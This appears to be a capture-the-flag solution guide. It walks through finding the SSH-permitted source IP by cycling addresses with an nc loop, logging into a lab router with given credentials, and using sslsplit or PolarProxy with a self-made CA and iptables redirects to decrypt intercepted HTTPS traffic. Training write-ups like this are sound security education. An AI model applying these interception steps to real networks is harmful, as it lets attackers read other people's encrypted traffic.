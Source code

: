 # Interplanetary Internet Interception

_Solution Guide_

## Overview

This challenge asks the competitor to figure out which IP address to set their system to (and then set it), and then use one of two provided tools to intercept and decrypt TLS traffic.

## Question 1

_What is the only IP address that the default gateway (router) will accept SSH connections from on your subnet?_

First we'll need to find the bypass address mentioned in the challenge guide using a shell script.

On the Kali system, run the following command to find the IP address that can reach the router/default gateway on TCP/22.

   ```
   for i in `seq 2 254`; do sudo ip addr flush dev eth0 && sudo ip addr add 172.17.6.$i/24 dev eth0 && echo 'Trying 172.17.6.'$i && nc 172.17.6.1 22 & sleep 1; done
   ```

When a string is returned that indicates the Ubuntu system's SSH banner, the IP address above the banner is the correct IP address.

## Question 2

_What is the ID of the correct mission name in the HTTPS traffic?_

This solution breaks the problem into multiple smaller steps. First we need to actually capture the mission traffic. Then we have a choice of tools to decrypt it. Finally, we'll actually examine the traffic and find the correct mission from the packet data.

### Intercepting the traffic

1. Append the following to the /etc/network/interfaces file, except replace 77 with the IP address discovered in the previous step.

   ```
   auto eth0
   iface eth0 inet static
   address 172.17.6.77/24
   gateway 172.17.6.1
   ```

2. Flush eth0 and restart the networking service to apply the new IP address (172.17.6.77 in the previous step).

   ```
   sudo ip addr flush dev eth0 && sudo systemctl restart networking
   ```

3. Verify your IP address is correctly set.

   ```
   ip a
   ```

4. SSH with the credentials in the challenge guide (user:SecureThisShip!) to the router/default gateway to verify you can establish this connection before transferring your TLS interception tool of choice.

   ```
   ssh user@172.17.6.1
   ```

5. On Kali, click the 'iso' icon to see your choice of TLS interception tools (PolarProxy and/or sslsplit). Verify the absolute filepath of these files. Open a second terminal tab or window (on your Kali) and SCP either PolarProxy or sslsplit to the router/default gateway. Either tool can be used for this challenge, and only one of the following two sections need to be followed.

   ```
   scp /media/cdrom0/sslsplit_deps.tar.gz user@172.17.6.1:~/
   ```
   **or**
   ```
   scp /media/cdrom0/PolarProxy_0-9-0_linux-x64.tar.gz user@172.17.6.1:~/
   ```

### (Choice 1) sslsplit

1. Navigate back to your first terminal window where you are SSH'd into the router/default gateway. Verify sslsplit_deps.tar.gz is now on the router/default gateway user's home directory.

   ```
   cd ~ && ls
   ```

2. Extract the sslsplit_deps.tar.gz file.

   ```
   tar xf sslsplit_deps.tar.gz
   ```

3. Install sslsplit and dependencies that were extracted.

   ```
   for i in *.deb; do sudo dpkg -i $i; done
   ```

4. Generate the RSA private key.

   ```
   openssl genrsa -out ca.key 4096
   ```

5. Generate a new X.509 certificate. Fill in the fields as you'd like.

   ```
   openssl req -new -x509 -days 365 -key ca.key -out ca.crt
   ```

6. Create two iptables rules to send 80 & 443 traffic to sslsplit. Technically, only 443 traffic is required for this challenge.

   ```
   sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 8080
   sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443
   ```

7. Run sslsplit and write the decrypted traffic to a pcap file.

   ```
   sslsplit -D -l conn.log -k ca.key -c ca.crt ssl 0.0.0.0 8443 tcp 0.0.0.0 8080 -X decrypted.pcap
   ```

### (Choice 2) PolarProxy

1. Navigate back to your first terminal window where you are SSH'd into the router/default gateway. Verify PolarProxy_0-9-0_linux-x64.tar.gz is now on the router/default gateway user's home directory.

   ```
   cd ~ && ls
   ```

2. Extract the PolarProxy_0-9-0_linux-x64.tar.gz file.

   ```
   tar xf PolarProxy_0-9-0_linux-x64.tar.gz
   ```

3. Create two iptables rules to send the traffic to PolarProxy.

   ```
   sudo iptables -I INPUT -i ens32 -p tcp --dport 10443 -m state --state NEW -j ACCEPT
   sudo iptables -t nat -A PREROUTING -i ens32 -p tcp --dport 443 -j REDIRECT --to 10443
   ```

4. Run polarproxy and write the decrypted traffic to a pcap file.

   ```
   ./PolarProxy -v -p 10443,80,443 --insecure -w decrypted.pcap
   ```

### Analyze the decrypted.pcap file

1. Open a new terminal and scp the file from the default gateway/router to your Kali's home directory.

   ```
   scp user@172.17.6.1:~/decrypted.pcap ~/
   ```

2. Import the decrypted.pcap file into Kali's Wireshark.

   ```
   wireshark -r ~/decrypted.pcap
   ```

3. You should see all HTTPS traffic now decrypted as HTTP.

4. There are 120 Mission IDs that are queried per ~minute (1 every .5 seconds). Either sift through this pcap to find the correct mission ID, or you can click the magnifying glass, select 'String', select 'Packet bytes', search for ' correct', and click 'Find'. Notice the intentional space before correct as this will ignore all strings that state incorrect. At the bottom (packet bytes panel), you should now see the correct MissionName and MissionID received.
